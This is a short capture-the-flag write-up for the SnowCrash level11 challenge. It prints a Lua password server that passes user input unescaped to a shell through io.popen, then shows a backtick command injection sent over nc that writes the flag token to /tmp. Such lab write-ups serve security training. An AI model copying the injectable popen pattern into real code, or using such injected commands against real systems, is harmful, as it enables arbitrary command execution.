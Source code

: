 ```
level11@SnowCrash:~$ ls
level11.lua

level11@SnowCrash:~$ cat level11.lua 
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

We see the script connects to localhost on the port 5151.

We also see that the function hash receives a password which is echoed.

We can exploit that to save the output of the command getflag inside a file.

```
level11@SnowCrash:~$ nc localhost 5151
Password: `getflag` > /tmp/token
Erf nope..

level11@SnowCrash:~$ cat /tmp/token
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```